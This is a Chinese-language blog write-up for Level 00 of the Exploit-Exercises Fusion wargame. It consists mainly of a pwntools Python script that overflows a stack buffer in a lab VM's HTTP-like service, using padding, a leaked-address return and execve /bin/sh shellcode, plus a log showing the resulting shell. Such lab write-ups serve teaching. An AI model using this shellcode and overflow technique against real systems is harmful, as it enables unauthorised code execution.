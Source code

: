 +++
title = "Exploit-Exercise_Fusion全攻略+解析"
date = 2018-08-03T01:31:36+00:00
updated = 2020-08-07T02:01:26.829857+00:00
description = "解析猴年马月...没办法，太菜的人没法做输出..."
in_search_index = true

[taxonomies]
tags = [ "WARGAME", "PWN", "stackoverflow", "mitigation",]
categories = [ "WriteUp",]
archives = [ "archive",]
+++
目前进度：

- [x] Level 00
- [ ] Level 01
- [ ] Level 02
- [ ] Level 03
- [ ] Level 04
- [ ] Level 05
- [ ] Level 06
- [ ] Level 07
- [ ] Level 08
- [ ] Level 09
- [ ] Level 10
- [ ] Level 11
- [ ] Level 12
- [ ] Level 13
- [ ] Level 14


<!-- more -->
# Level 00

```python
#!/usr/bin/python
from pwn import *
import struct

shellcode = '\xb8\x2f\x73\x68\xf0\x25\xff\xff\xff\x0f\x50\xb8\x2f\x62\x69\x6e\x50\x89\xe3\x31\xc0\xb0\x0b\x31\xc9\x31\xd2\xcd\x80'
prefix='GET '
postfix=' HTTP/1.1' 

r=remote('192.168.116.150', 20000)
r.recvuntil('er is at')
addr=int(r.recv()[0:11],16)
#print addr,hex(addr)
print hex(addr+200)
r.sendline(prefix+'G'*139+p32(addr+200)+postfix+'\x90'*100+shellcode)
r.interactive()
```



```bash
root@kali:~/Documents/Fusion# ./level00.py 
[+] Opening connection to 192.168.116.150 on port 20000: Done
0xbffff9c0
[*] Switching to interactive mode
$ id
uid=20000 gid=20000 groups=20000
```